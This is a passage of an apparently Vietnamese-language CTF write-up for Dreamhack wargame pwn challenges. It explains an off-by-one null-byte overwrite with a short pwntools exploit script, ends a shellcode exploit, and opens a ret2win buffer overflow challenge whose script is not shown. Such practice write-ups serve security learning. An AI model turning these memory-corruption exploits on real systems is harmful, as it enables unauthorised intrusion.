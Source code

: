 ```

r.sendlineafter("> ", shellcode)

r.interactive()
```

https://dreamhack.io/wargame/writeups/16088

------------

17 . off_by_one_001
-----------

- reverse : 
bài này xảy ra lỗi ở hàm read_str , khi ta nhập 20bytes thì nó sẽ dc lưu vào v3 , và buf[v3] = 0 ( buf[20] = 0 ) thì nó sẽ ghi đè địa chỉ kế tiếp bằng bytes null này 

![image](https://hackmd.io/_uploads/SJDZzIOX1l.png)


![image](https://hackmd.io/_uploads/SkyfGIOXkl.png)


script 
```
#!/usr/bin/python3
from pwn import *
context.binary= exe = ELF('./off_by_one_001',checksec=False)
p = remote('host3.dreamhack.games', 11186)
#p= process()
payload = b'a'*19
input()
p.sendline(payload)

p.interactive()




```

----------


18 . cherry 
-----


reverse :
- ta có thể thấy BOF ở bài này , tuy nhiên thì ta sẽ ghi đè ở đâu?
- bài này chỉ là ret2win , ta có thể thấy size ở lần read thứ 2 có thể overflow được , vì vậy ta sẽ ghi đè làm sao cho lần read thứ 2 xảy ra BOF 1 lần nữa
- size và buf read đầu tiên cách nhau 12bytes ( có thể thấy ở IDA)
- buf ( 6 bytes ) , var_12 (4 bytes ) , var_E ( 2 bytes) = 12 bytes
- oke vậy là xong bài ròi ghi script thôi :3
